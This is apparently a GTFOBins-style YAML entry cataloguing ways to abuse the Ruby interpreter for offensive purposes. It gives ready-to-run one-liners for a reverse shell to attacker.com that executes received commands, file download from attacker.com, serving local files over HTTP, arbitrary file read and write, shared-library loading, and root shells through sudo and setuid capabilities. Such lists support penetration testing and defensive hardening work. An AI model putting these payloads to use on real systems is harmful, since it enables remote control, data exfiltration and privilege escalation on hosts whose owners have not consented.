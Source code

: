 ```yaml
---
name: ruby
functions:
  shell:
    - code: ruby -e 'exec "/bin/sh"'
  reverse-shell:
    - description: Run `nc -l -p 12345` on the attacker box to receive the shell.
      code: |
        export RHOST=attacker.com
        export RPORT=12345
        ruby -rsocket -e 'exit if fork;c=TCPSocket.new(ENV["RHOST"],ENV["RPORT"]);while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'
  file-upload:
    - description: Serve files in the local folder running an HTTP server. This requires version 1.9.2 or later.
      code: |
        export LPORT=8888
        ruby -run -e httpd . -p $LPORT
  file-download:
    - description: Fetch a remote file via HTTP GET request.
      code: |
        export RHOST=attacker.com
        export RPORT=12345
        export RFILE=/file_to_get
        export LFILE=file_to_save
        ruby -e 'require "net/http"; Net::HTTP.start(ENV["RHOST"], ENV["RPORT"]) { |http| r = http.get(ENV["RFILE"]); open(ENV["LFILE"], "wb") { |file| file.write(r.body) } }'
  file-write:
    - code: ruby -e 'File.open("file_to_write", "w+") { |f| f.write("DATA") }'
  file-read:
    - code: ruby -e 'puts File.read("file_to_read")'
  library-load:
    - code: ruby -e 'require "fiddle"; Fiddle.dlopen("lib.so")'
  sudo:
    - code: sudo ruby -e 'exec "/bin/sh"'
  capabilities:
    - code: ./ruby -e 'Process::Sys.setuid(0); exec "/bin/sh"'
---
```

